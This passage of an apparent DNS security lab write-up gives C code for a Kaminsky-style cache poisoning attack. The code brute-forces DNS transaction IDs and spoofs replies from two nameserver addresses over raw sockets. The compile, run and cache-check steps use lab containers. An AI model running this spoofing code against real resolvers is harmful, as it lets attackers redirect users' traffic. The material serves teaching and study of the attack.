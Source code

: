 
    /* Use for sending forged DNS response.
    * Add arguments to the function definition if needed.
    * */
    void send_dns_response(unsigned char *packet, int pkt_size)
    {
    char ns[15] = "199.43.133.53";
    char ns2[15] = "199.43.135.53";

    for (unsigned short id = 0; id < 65535; id++) {
        // Modify the transaction ID field (offset=28)
        unsigned short id_net_order = htons(id);
        memcpy(packet+28, &id_net_order, 2);

        // Copy IP address (offset=12)
        int ip_address = (int) inet_addr(ns);
        memcpy(packet+12, (void *) &ip_address, 4);
        send_raw_packet(packet, pkt_size);

        // Copy IP address (offset=12)
        int ip_address2 = (int) inet_addr(ns2);
        memcpy(packet+12, (void *) &ip_address2, 4);
        send_raw_packet(packet, pkt_size);
    }
    }


    /* Send the raw packet out 
    *    buffer: to contain the entire IP packet, with everything filled out.
    *    pkt_size: the size of the buffer.
    * */
    void send_raw_packet(char * buffer, int pkt_size)
    {
    struct sockaddr_in dest_info;
    int enable = 1;

    // Step 1: Create a raw network socket.
    int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);

    // Step 2: Set socket option.
    setsockopt(sock, IPPROTO_IP, IP_HDRINCL,
        &enable, sizeof(enable));

    // Step 3: Provide needed information about destination.
    struct ipheader *ip = (struct ipheader *) buffer;
    dest_info.sin_family = AF_INET;
    dest_info.sin_addr = ip->iph_destip;

    // Step 4: Send the packet out.
    sendto(sock, buffer, pkt_size, 0,
        (struct sockaddr *)&dest_info, sizeof(dest_info));
    close(sock);
    }
    ```
- We compile the C code above using `gcc -o kaminsky kaminsky.c` and run it using `./kaminsky` in the user container `10.9.0.5`
- Then we check the cache of the local DNS server at `10.9.0.53` using `rndc dumpdb -cache && grep attacker /var/cache/bind/dump.db` as per the instructions.
- ![dns cache dump after attack](images/dns_cache_dump.png)